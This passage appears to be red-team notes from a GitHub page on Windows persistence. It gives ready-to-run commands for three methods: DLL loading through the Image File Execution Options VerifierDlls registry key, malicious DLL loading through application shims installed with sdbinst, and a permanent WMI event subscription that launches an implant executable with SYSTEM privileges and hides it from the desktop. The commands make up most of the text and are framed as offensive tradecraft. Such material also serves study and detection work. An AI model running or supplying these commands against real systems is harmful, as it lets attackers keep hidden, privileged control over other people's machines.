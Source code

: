 ### VERIFIER
 
This is an old technique used for backward compatibility which is assigning a dll under a specific key for the target and that dll will be loaded in the app when it runs.
the dll must have a specific implementation as the reason the dll will be attached with  "DLL_PROCESS_VERIFIER" So it must be implemented.
commands...

    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\"target name"" /v VerifierDlls /d "dll name" /reg:(32 or 64) /f
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\"target name"" /v GlobalFlag /t REG_DWORD /d 256 /reg:(32 or 64)
    copy "dll path" c:\windows\SysWOW64

## Application Shims

Application Shims is a feature created by Microsoft for backward compatibility, Simply it's making you able to make a ".sdb" file that contains new configuration that can be added to the file, This ".sdb" file can be created using the "Compatibility application" tool for x86 or x64 executables "x86 executable needs to be made with the x86 version".
We are interested in the feature that will help us load our malicious DLL with the execution of the program.
after we have the ".sdb" file we can apply the changes to the file using the command...

    sdbinst "path to the .sdb file"

## WMI Event Subscription

Its a method of Subscribing to a specific System event, WMI is used to mostly action on every windows event such as logon, logoff, shutdown...etc

One of the subscription methods is permanent which can survive reboots.

These commands are Subscribing for an event that is triggered when a specific app is in memory, The first line specifies that the second line adds the consumer that will be triggered by that event, and the third line maps between those.

    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="INFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="Select * From __InstanceCreationEvent Within 15 Where (TargetInstance Isa 'Win32_Process' And TargetInstance.Name = 'name of the process')"
    wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="INConsumer", WorkingDirectory="path to cnsumer", CommandLineTemplate="c:\rto\PERS\implant\implant.exe"
    wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"INFilter\"", Consumer="CommandLineEventConsumer.Name=\"INConsumer\""

And you can query those filters using commands...

    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET /format:list
    wmic /NAMESPACE:"\\root\subscription" PATH __EventConsumer GET /format:list
    wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET /format:list

    Note:
      - The Consumer will run with System privileges.
      - Your Payload will be hidden "with no GUI" as WMI is running in session 0 but the desktop is running in session 1.
